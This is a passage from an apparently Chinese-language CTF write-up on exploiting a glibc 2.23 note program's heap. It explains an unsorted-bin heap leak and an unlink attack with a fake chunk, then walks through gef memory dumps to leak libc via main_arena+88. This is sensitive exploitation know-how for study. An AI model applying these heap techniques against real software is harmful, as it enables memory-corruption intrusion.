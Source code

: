 #### leak heap
使 `unsorted bin` 中 第一块的 bk 指向下一个 `free` 掉的 `chunk` ，泄露bk,得到 `heap` 地址
#### unlink
 `free` 一个堆块放入 `unsorted bin`，会检查后向合并，我们构造 `fake chunk`，伪造 `fd,bk`。从而达到 `ptr[0] = &ptr[0]-0x18` 的效果
### 利用过程
#### 泄露 libc 地址
首先 `new` 两个 `0x80` 的 `chunk`
```c
gef➤  x/16gx 0x00000000019c3000
0x19c3000:	0x0000000000000000	0x0000000000001821  => table header
0x19c3010:	0x0000000000000100	0x0000000000000002 
0x19c3020:	0x0000000000000001	0x0000000000000080 => chunk 0 flag | size
0x19c3030:	0x00000000019c4830	0x0000000000000001 => chunk 0 ptr | chunk 1 flag
0x19c3040:	0x0000000000000080	0x00000000019c48c0 => chunk 1 size | chunk 1 ptr
0x19c3050:	0x0000000000000000	0x0000000000000000
```
看一下这两个 `chunk` 的信息：
```c
gef➤  x/32gx 0x00000000019c4830-0x10
0x19c4820:	0x0000000000000000	0x0000000000000091 => chunk 0 header
0x19c4830:	0x4141414141414141	0x4141414141414141
......
0x19c48b0:	0x0000000000000000	0x0000000000000091 => chunk 1 header
0x19c48c0:	0x4242424242424242	0x4242424242424242
...... 
0x19c4910:	0x4242424242424242	0x4242424242424242
```
`delete chunk 0` 写入 `fd, bk`
```c
gef➤  x/16gx 0x120d830-0x10
0x120d820:	0x0000000000000000	0x0000000000000091 => chunk 0 header
0x120d830:	0x00007fd22ca79b78	0x00007fd22ca79b78 => fd | bk
0x120d840:	0x4141414141414141	0x4141414141414141
0x120d850:	0x4141414141414141	0x4141414141414141
```
`new note('\x78')` 将刚刚 `free` 掉的` chunk 0` `malloc` 出来
可以看到` fd,bk `并没有修改，我们就可以通过 `list` 得到地址了
```c 
gef➤  x/16gx 0x1f66830-0x10
0x1f66820:	0x0000000000000000	0x0000000000000091
0x1f66830:	0x00007f307c0b5b78	0x00007f307c0b5b78 => fd | bk
0x1f66840:	0x4141414141414141	0x4141414141414141
```
查看一下 `libc` 地址和 `fd`:
```c
gef➤  vmmap libc
Start              End                Offset             Perm Path
0x00007fd22c6b5000 0x00007fd22c875000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
.....
gef➤  x/16gx 0x00007fd22ca79b78
0x7fd22ca79b78 <main_arena+88>:	0x000000000120d940	0x0000000000000000
0x7fd22ca79b88 <main_arena+104>:	0x000000000120d820	0x000000000120d820
```
我们可以计算 `hex(libc基址-fd)` 即 `hex(0x00007fd22ca79b78-0x00007fd22c6b5000)` 得到 `0x3c4b78`，当然这个值就是 `main_arena` 偏移 +`88` 
